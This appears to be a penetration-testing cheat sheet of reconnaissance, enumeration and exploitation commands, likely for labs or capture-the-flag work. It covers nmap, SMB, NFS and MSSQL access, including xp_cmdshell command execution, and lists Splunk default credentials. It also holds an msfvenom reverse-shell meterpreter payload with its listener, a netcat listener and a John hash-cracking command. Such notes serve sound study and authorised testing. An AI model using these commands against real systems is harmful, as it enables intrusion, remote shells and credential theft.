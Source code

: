 # Recon & Enum
## The basic
Data and information gathering.

## [nmap](https://nmap.org/book/man.html)
1. Host scan
```
nmap -p 1-65535 -v -A -Pn [IP_ADDR]
nmap -sC -sV -A -p- -v [IP_ADDR]
```

## Commonly seen port (Default port num)
### FTP (21)
```
ftp [IP_ADDR]
anonymous sign in
```

### SSH (22)
```
ssh [USERNAME]@[IP_ADDR]
```

### HTTP (80) / HTTPS (443)
```
gobuster dir -u [URL] -w [WORDLIST]   # Files enumeration
nikto -h [URL]
davtest -url [URL]    # PUT method test
cadaver [IP_ADDR]
```

### Network File System (111 & 2049)
```
showmount -e [IP_ADDR]
mount -t nfs [IP_ADDR]:/[Remote_Folder] [Local_Folder]/
```

### SMB (445)
```
smbclient -L [IP_ADDR]    # To list out available directories
smbclient \\\\[IP_ADDR]\\[DIRECTORY]    # To show directory content
smbclient \\\\[IP_ADDR]\\[DIRECTORY] --username=[USERNAME]    # Sign in with username
```
MS17-010 EternalBlue exploitation for SMBv1 in Windows Vista, 7, 8.1, 10; Server 2008, 2012, 2016
SMB share folder mounting
```
mkdir /mnt/[FOLDER_NAME]
mount -t cifs -o username=[USERNAME] //[IP_ADDR]/[SHARED_PATH] /mnt/[FOLDER_NAME]
```
Mounting VHD file
Ref: https://www.how2shout.com/linux/mount-virtual-hard-disk-vhd-file-ubuntu-linux/

### Microsoft SQL (1433)
```
impacket-mssqlclient [DOMAIN]/[USERNAME]@[IP_ADDR] -windows-auth    # Connect to mssql server
SELECT IS_SRVROLEMEMBER('sysadmin')   # Check for sysadmin privileage; return 1 for true, 0 for false
SELECT name FROM master.dbo.sysdatabases    # Retrieve list of databases
EXEC master..xp_cmdshell '[CMD]'    # Execute remote command with sysadmin privileage
```

### MySQL (3306)
```
mysql -u [USERNAME] -h [IP_ADDR] -p   # Connect to mysql server
```

### RDP (3389)

### SPLUNK (8089)
```
Default Credential 
admin:changeme
```

# Working with MSFVENOM and MSFCONSOLE
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[MY_IP_ADDR] LPORT=4444 -f [asp/aspx/php/filetype] > [OUTPUT_FILE.asp/aspx/php/filetype]

----------------------------------
msfconsole:
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp   # payload match with the one used in venom
run     # start listener

----------------------------------
meterpreter session:
getuid     # get current user session
sysinfo    # get information of the remote system
background / ctrl+z
use post/multi/recon/local_exploit_suggester    # set session number
```
## Cisco router password cracker
https://github.com/axcheron/cisco_pwdecrypt
https://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html

## Netcat
Listener (on attacker machine)
```
nc -lnvp [PORT]
l = listen; n = ip addresses only, no DNS lookup; v = verbose; p = local port
```

## John
```
john [hash_file] --format=Raw-SHA1 --wordlist=/usr/share/wordlists/rockyou.txt
```
